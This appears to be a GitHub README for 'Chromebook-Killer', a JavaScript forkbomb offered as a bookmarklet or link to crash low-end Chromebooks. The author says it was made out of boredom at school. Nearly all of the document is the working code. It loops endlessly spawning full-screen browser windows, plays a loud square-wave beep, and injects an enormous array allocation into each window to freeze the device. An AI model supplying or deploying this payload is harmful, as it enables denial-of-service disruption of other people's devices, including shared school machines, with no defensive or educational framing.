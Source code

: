 # 🔥 Chromebook-Killer
*"I was bored in school. Nothing new there."*

The code below is a a modified forkbomb that works in HTML and JavaScript. Keep in mind that this is targeted towards more cheap, low end Chromebooks, but I havent tested it on more powerful devices.

#### 🚀 Features
* Lags the Chromebook by spamming new browser windows.
* Plays a loud beeping noise until chromebook crashes (scary ;-;).
* On each new window it creates, it adds an array that will crash that new window.
* Can be used as a bookmarklet or clickable link.

#### 💾 Code
```js
for(;;){
  var a=Math.floor(10000*Math.random()+1),
  b=window.open("_blank","Lag"+a,`height=${screen.height},width=${screen.width}`);
  au=new AudioContext(); v=au.createOscillator(); u=au.createGain(); v.connect(u); v.frequency.value=130; v.type="square"; u.connect(au.destination); u.gain.value=100*0.01; v.start(au.currentTime); v.stop(au.currentTime+300*0.001);
  b.document.body.innerHTML=`<script>[...Array(2**32-1)]</script>`
}
```
